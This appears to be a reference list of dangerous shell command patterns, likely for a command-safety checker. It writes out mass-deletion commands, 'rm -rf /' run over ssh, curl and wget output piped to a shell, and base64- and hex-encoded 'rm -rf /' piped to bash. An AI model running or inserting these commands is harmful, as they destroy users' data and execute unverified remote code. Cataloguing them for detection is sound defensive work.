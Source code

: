 ## Medium Risk Commands

### Data Overwrite
```bash
# Overwrites files without warning
cat source > important_file
echo "data" > config.conf
cp -f new_file important_file
mv -f source destination

# Truncates files
> important.log
: > database.sql
truncate -s 0 file.txt
```

### Bulk Operations
```bash
# Can affect many files
find / -type f -exec rm {} \;
find . -name "*.bak" -exec rm -f {} +
for f in /*; do rm "$f"; done
ls | xargs rm
```

### Archive Bombs
```bash
# Can fill disk or overwrite files
tar -xf archive.tar /
unzip -o archive.zip /
tar -czf / backup.tar.gz
```

### Remote Execution
```bash
# Executes unverified remote code
curl http://example.com/script.sh | bash
wget -O - http://example.com/install.sh | sh
ssh user@host "rm -rf /"
```

## Obfuscation Patterns

### Base64 Encoded
```bash
# Hidden dangerous commands
echo "cm0gLXJmIC8=" | base64 -d | bash
python -c "import base64; exec(base64.b64decode('...'))"
```

### Hex Encoded
```bash
# Hidden commands in hex
echo -e "\x72\x6d\x20\x2d\x72\x66\x20\x2f" | bash
xxd -r -p <<< "726d202d7266202f" | bash
```
